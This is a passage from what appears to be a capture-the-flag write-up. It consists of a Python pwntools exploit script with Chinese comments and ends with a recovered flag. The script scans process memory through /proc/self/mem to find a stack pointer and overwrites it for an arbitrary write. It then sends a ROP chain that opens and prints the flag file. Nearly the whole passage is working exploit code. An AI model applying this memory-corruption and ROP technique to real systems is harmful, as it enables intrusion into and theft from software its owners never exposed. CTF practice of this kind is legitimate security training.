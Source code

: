```python
        line = sh.recvline()  
        if b'heap' in line:  
        #接下来这一行就是mmap出的内存的信息  
            line = sh.recvline()  
            mmap_start = int(line.split(b'-')[0],16)  
            mmap_end = int(line.split(b'-')[1].split(b' ')[0],16)  
            break  
    
    #现在解析出clone的那个程序的stack地址  
    stack_end = mmap_end  
    stack_start = mmap_start  
    
    #范围偏差  
    offset = 0xf800000  
    #区间范围begin_off~stack_end里搜索  
    begin_off = stack_end - offset - 24 * 100000  
    setPath('/proc/self/mem')  
    seekTo(begin_off)  
    #在内存的范围内搜索，如果找到了/proc/self/mem这个字符串，说明当前地址就是buf的栈地址  
    for i in range(0,24):  
        readSomething(100000)  
        content = sh.recvuntil('1.Find ')[:-7]  
        if b'/proc/self/mem' in content:  
            print('found!')
            arr = content.split(b'/proc/self/mem')[0]  
            isFound=True
            break  
        if i == 23:  
            print('未能成功确定v8的地址,正在重试'  )
    if not isFound:
        sh.close()
        continue
    #获得了v8的地址，可以将它里面的内容，实现任意地址写  
    v8_addr = begin_off + i * 100000 + len(arr) + 5  
    read_ret = v8_addr - 0x50  
    #覆盖v8指针内容为存放read返回地址的栈地址  
    payload = b'/proc/self/mem'.ljust(24,b'\x00') + p64(read_ret)  
    setPath(payload)  
    #接下来，我们可以写rop了(v8_addr-24+15处就是/home/ctf/flag字符串)  
    rop = p64(pop_rdi) + p64(read_ret + 15 * 8) + p64(pop_rsi) + p64(0) + p64(0) + p64(open_addr)  
    #我们打开的文件，描述符为6  
    rop += p64(pop_rdi) + p64(6) + p64(pop_rsi) + p64(read_ret + 15 * 8) + p64(0) + p64(read_addr)  
    rop += p64(pop_rdi) + p64(read_ret + 15 * 8) + p64(puts_addr)  
    rop += b'/home/ctf/flag\x00'  
    
    giveSomething(rop)  
    
    sh.interactive() 
```

- ### Flag
  > cyberpeace{71724f97051e7f1dd3f7442ac3a8a482}